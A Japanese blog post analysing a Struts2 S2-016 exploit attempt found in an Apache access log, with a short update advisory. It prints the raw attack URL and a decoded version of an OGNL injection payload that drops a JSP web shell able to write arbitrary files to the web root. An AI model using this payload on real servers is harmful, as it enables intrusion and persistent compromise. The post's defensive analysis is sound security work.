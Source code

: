 ```yaml
---
title: apacheのaccess_logにjavaのソースコードみたいなアクセスが記録されていた。(Struts2の脆弱性S2-016への攻撃)
pubtime: 2015-07-01T16:04+0900
amp: hybrid
tags: [apache, access_log, java, Struts2, S2-016]
description: 自宅サーバで動かしているApacheに対してStruts2の脆弱性「S2-016」を悪用しようとする攻撃が来ていたので、その内容を調べてみました。
---
```


さっきの[apache killerの話](http://blanktar.jp/blog/2015/07/python-make-apache-killer.html)を書いたあとでapacheのアクセスログを見ていたら、こんなアクセスが。
```
xx.xx.xx.xx [01/Jul/2015:03:09:11 +0900] "GET /index.php?redirect:$%%7b%%2523req%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%%2523res%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%2523res.getWriter().println(%%2522okokok%%2522),%%2523res.getWriter().flush(),%%2523res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%%2523req.getRealPath(%%2522/%%2522)%%252b%%2522lndex.jsp%%2522)).append(%%2523req.getParameter(%%2522shell%%2522)).close()%%7d&shell=%%253C%%2525if(request.getParameter(%%2522f%%2522)!%%253Dnull)(new%%2520java.io.FileOutputStream(application.getRealPath(%%2522%%252F%%2522)%%252Brequest.getParameter(%%2522f%%2522))).write(request.getParameter(%%2522t%%2522).getBytes())%%253B%%2525%%253E%%253Ca%%2520href%%253D%%2522One_OK%%2522%%253E%%253C%%252Fa%%253E HTTP/1.1" 404 2583 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1"
```
なんじゃこりゃ。むっちゃ長い。

どうもプログラムのコードをそのまんま突っ込んであるようなので、バラしてみました。
```
redirect:
    ${
        #req = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
        #res = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
        #res.getWriter().println("okokok"),
        #res.getWriter().flush(),
        #res.getWriter().close(),
        new java.io.BufferedWriter(
            new java.io.FileWriter(
                #req.getRealPath("/") + "lndex.jsp"
            )
        ).append(#req.getParameter("shell")).close()
    }
    &shell = <%%
        if(request.getParameter("f") != null)
            (
                new java.io.FileOutputStream(application.getRealPath("/") + request.getParameter("f"))
            ).write(request.getParameter("t").getBytes());
    %%>
    <a href="One_OK"></a>
```
こんな感じになった。
javaだよjava。javaが埋めこまれている。

調べてみると、どうやら**Sturts2**とやらが関連するようです？
Sturts2というのはjavaでwebアプリケーションを記述するためのフレームワークとのこと。Apacheが作っているらしい。
で、今回問題になるのは*S2-016*という脆弱性。[Apache Struts 2 DocumentationのS2-016のページ](http://struts.apache.org/docs/s2-016.html)を見てみると、確かに似たような雰囲気のURIのサンプルが載っている。

脆弱性の内容としては、クエリに`redirect: `から始まる何かを書いたURIでGETすると、任意のソースを実行できてしまう、というもののようです。
バラしたURIを上に書きましたが、Javaのコードをそのまんま書いて、そのまんま実行するっぽい。
うーむ、くわばらくわばら。

影響をうけるのはStrutsの2.0.0から2.3.15とのこと。
Struts2を利用しているのなら要アップデート、ですかね。

---

参考：
- [Tomcat Files Getting uploaded - Security Loophole - Stack Overflow](http://stackoverflow.com/questions/21104956/tomcat-files-getting-uploaded-security-loophole)
- [Apache Struts の脆弱性 (S2-016) に関する注意喚起](https://www.jpcert.or.jp/at/2013/at130033.html)
